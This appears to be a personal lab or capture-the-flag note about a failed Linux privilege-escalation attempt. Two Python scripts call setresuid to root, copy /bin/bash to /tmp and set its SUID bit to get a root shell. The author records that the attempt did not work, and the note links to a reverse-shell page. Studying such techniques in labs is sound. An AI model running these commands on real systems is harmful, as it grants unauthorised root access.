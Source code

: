 
Does not work! Was trying to do the same as the elf
```python
#!/usr/bin/env python3

import os
os.setresuid(0,0,0)
os.system("touch /tmp/testfile")
os.system("cp /bin/bash /tmp/sofia")
os.system("chmod +xs /tmp/sofia")
```

trying to find more on the error, failed
```python
!/usr/bin/env python3

import os
import subprocess

def main():
    try:
        print("Setting user IDs to root...")
        os.setresuid(0, 0, 0)

        # Execute commands
        print("Running commands...")
        os.system("touch /tmp/testfile2")
        os.system("cp /bin/bash /tmp/sofia")
        os.system("chmod +xs /tmp/sofia")
        os.system("/bin/bash -p")
    except PermissionError as e:
        print(f"Permission denied: {e}")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    main()

```

Both files where created but with karen, the user, as the owner. The chmod worked fine. But without root as the owner it's useless

also check out [[../04 - Shells/python reverse shell|python reverse shell]]